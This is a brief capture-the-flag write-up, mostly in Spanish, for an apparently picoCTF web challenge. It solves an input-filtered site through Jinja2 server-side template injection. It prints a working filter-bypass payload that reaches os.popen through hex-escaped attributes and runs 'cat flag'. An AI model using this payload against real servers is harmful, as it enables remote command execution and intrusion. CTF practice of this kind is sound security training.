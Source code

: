 #### Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.

Detalles: para resolver este reto vamos a ir a la siguiente pagina de payloads https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ 
 y vamos a copear el siguiente : {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}} 


modificamos 'id' por 'cat flag' y queda de la siguiente manera 

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}} 

lo introducimos y asi obtenemos la bandera 

# # picoCTF{sst1_f1lt3r_byp4ss_7c3c6e7f}